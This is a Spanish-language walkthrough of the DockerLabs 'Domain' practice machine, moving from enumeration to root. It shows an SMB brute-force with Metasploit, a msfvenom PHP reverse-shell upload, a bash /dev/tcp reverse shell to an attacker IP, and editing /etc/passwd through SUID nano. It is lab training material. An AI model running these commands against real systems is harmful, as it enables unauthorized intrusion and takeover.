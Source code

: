 ```yaml
---
tags:
  - Cybersecurity
  - Labs
  - DockerLabs
  - Linux
  - Samba
  - FileUpload
  - HTTP
  - SUID
---
```

- [[#Enumeración|Enumeración]]
	- [[#Enumeración#Ping|Ping]]
	- [[#Enumeración#Nmap|Nmap]]
- [[#Explotación|Explotación]]
	- [[#Explotación#Smbclient Anónimo|Smbclient Anónimo]]
	- [[#Explotación#Rpcclient|Rpcclient]]
	- [[#Explotación#Fuerza bruta con MSFconsole|Fuerza bruta con MSFconsole]]
	- [[#Explotación#Smbmap|Smbmap]]
	- [[#Explotación#Smbclient|Smbclient]]
	- [[#Explotación#HTTP|HTTP]]
	- [[#Explotación#SUID|SUID]]

---
# Resolviendo la máquina Domain

>En esta publicación, comparto cómo resolví la máquina **Domain** de [DockerLabs](https://dockerlabs.es/).

---
## Enumeración
### Ping

Ejecutamos un *ping* para comprobar la conectividad y obtener pistas sobre el sistema operativo.

`ping -c 1 172.17.0.2`

![[Pasted image 20250714190205.png]]

*TTL=64* -> **Linux**
### Nmap

`nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts`

![[Pasted image 20250714190428.png]]

`nmap -p80,139,445 -sCV 172.17.0.2 -oN targeted`

![[Pasted image 20250714190452.png]]

---
## Explotación
### Smbclient Anónimo

Se intenta acceder con usuario anónimo a **Samba**, el acceso anónimo no está habilitado.

`smbclient -L 172.17.0.2 -N`

![[Pasted image 20250714192221.png]]
### Rpcclient

`rpcclient -U "" -N 172.17.0.2`

![[Pasted image 20250714191606.png]]
### Fuerza bruta con MSFconsole

Se crea un archivo llamado *users* con los usuarios descubiertos.

`nano users`

![[Pasted image 20250714194246.png]]

Se utiliza un módulo de *Metasploit* para realizar fuerza bruta a **Samba**.

`auxiliary/scanner/smb/smb_login`

```
search auxiliary/scanner/smb/smb_login
use 0 | use auxiliary/scanner/smb/smb_login
show options
set RHOSTS 172.17.0.2
set USER_FILE /home/manumore/Escritorio/manumore/Laboratorios/DockerLabs/Domain/users
exploit
```

![[Pasted image 20250714194002.png]]

![[Pasted image 20250714194127.png]]
### Smbmap

Se listan los permisos que tenemos con el usuario *bob*, se observa que en *html* podemos leer y escribir.

`smbmap -u 'bob' -p 'star' -H 172.17.0.2`

![[Pasted image 20250714195358.png]]
### Smbclient

`smbclient -U 'bob' //172.17.0.2/html`

![[Pasted image 20250714202137.png]]

Al tener permisos para escribir, se crea y se sube un *payload malicioso*.

`msfvenom -p php/reverse_php LHOST=192.168.1.127 LPORT=444 -f raw > pwned.php`

`put pwned.php`

![[Pasted image 20250714202336.png]]
### HTTP

Se realiza una escucha en los puertos 444 y 4444.

`nc -nlvp 444`

`nc -nlvp 4444`

Se ejecuta el *payload* subido anteriormente.

`http://172.17.0.2/pwned.php`

Se establece una *reverse shell* para mantener el acceso persistente

`bash -c "sh -i >& /dev/tcp/192.168.1.127/4444 0>&1"`

![[Pasted image 20250714202644.png]]

Se realiza el tratamiento de la terminal.

```bash
script /dev/null -c bash
Ctrl + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

![[Pasted image 20250714202818.png]]
### SUID

Se realiza una búsqueda de permisos **SUID**.

`find / -perm -4000 2>/dev/null`

![[Pasted image 20250714203019.png]]

Se observa un permiso sospechoso: *usr/bin/nano*. Se realiza una búsqueda por [GTFOBins](https://gtfobins.github.io/gtfobins/nano/#limited-suid).

![[Pasted image 20250714203105.png]]

Una de las formas de escalar privilegios con *nano*, es modificar el fichero `/etc/passwd`.

Se modifica el archivo `/etc/passwd` eliminando la contraseña de *root*, permitiendo el acceso directo sin autenticación.

`cat /etc/passwd`

![[Pasted image 20250714203247.png]]

`nano /etc/passwd`

`cat /etc/passwd`

![[Pasted image 20250714203411.png]]

`su root`

![[Pasted image 20250714203457.png]]

---